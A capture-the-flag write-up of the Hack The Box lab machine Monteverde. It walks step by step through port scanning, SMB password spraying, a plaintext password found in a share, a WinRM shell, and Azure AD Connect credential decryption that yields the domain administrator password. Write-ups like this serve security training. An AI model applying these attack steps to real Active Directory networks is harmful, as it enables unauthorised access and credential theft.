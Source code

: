 # Monteverde
Box IP **10.10.10.172**


### Nmap scan

```bash
$ nmap -sC -sV -p- -T5 -v monteverde.htb
```
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-03-24 13:01:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
```

### Enumeration

We start by enumerating [RPC](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Windows#RPC) with enumdomusers getting the users and put them in a file
```
$ cat users.txt
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```

By spraying *username:password* on SMB we find **SABatchJobs:SABatchJobs** as valid creds

Searching into the **users$** share with [smbmap](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Windows#smbmap) we finally hit **.\users$\mhope\azure.xml** containing a password
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

### Getting a Shell

We get a shell with [evil-WinRM](https://github.com/lorenzoinvidia/HackTheBox-CheatSheets/wiki/Windows#evil-winrm) as **mhope:4n0therD4y@n0th3r$**

User flag is in  **C:\Users\mhope\Desktop\user.txt**

### Privilege Escalation

By whoaming we see that mhope belong to the **Azure Admins** group and he can **Add workstations to domain**  
```
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami /all

USER INFORMATION
----------------

User Name      SID
============== ============================================
megabank\mhope S-1-5-21-391775091-850290835-3566037492-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes
=========================================== ================ ============================================ ==================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
MEGABANK\Azure Admins                       Group            S-1-5-21-391775091-850290835-3566037492-2601 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


    PRIVILEGES INFORMATION
    ----------------------

    Privilege Name                Description                    State
    ============================= ============================== =======
    SeMachineAccountPrivilege     Add workstations to domain     Enabled
    SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
    SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

By googleing for *Active Directory Azure exploit* we find an [article](https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/) by vbscrub.

The Azure AD Connect service is responsible for syncing between AD domain and the Azure based domain.

By running the script on a machine that has the Azure AD Connect database on it, we get the AD account’s credentials in plain text.

```
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\Users\mhope\Documents\AdDecrypt.exe -FullSQL

======================
AZURE AD SYNC CREDENTIAL DECRYPTION TOOL
Based on original code from: https://github.com/fox-it/adconnectdump
======================

Opening database connection...
Executing SQL commands...
Closing database connection...
Decrypting XML...
Parsing XML...
Finished!

DECRYPTED CREDENTIALS:
Username: administrator
Password: d0m@in4dminyeah!
Domain: MEGABANK.LOCAL
```

We then auth as **administrator:d0m@in4dminyeah!**


If you liked this writeup, please leave a respect on my hackthebox

![htbbadge](https://www.hackthebox.eu/badge/image/77747)
